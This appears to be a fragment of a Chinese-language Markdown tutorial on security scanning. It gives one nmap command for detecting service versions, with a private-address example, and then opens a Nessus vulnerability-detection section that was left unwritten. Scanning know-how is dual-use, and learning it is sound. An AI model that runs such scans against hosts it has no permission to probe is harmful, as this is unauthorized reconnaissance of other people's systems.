        
       
</figure>

- __扫描指定端口的程序版本<BR>__

```
命令： nmap  -p  端口 -SV 主机名
例：   nmap  -p 80 -sV 192.168.2.207

``` 
</figure>
     <figure class="thumbnails">
        
       
</figure>

## <font color = #1E90FF>第六章 漏洞检测 </font>

### <font color = #FF0000>Nessus</font> 
        不想写。。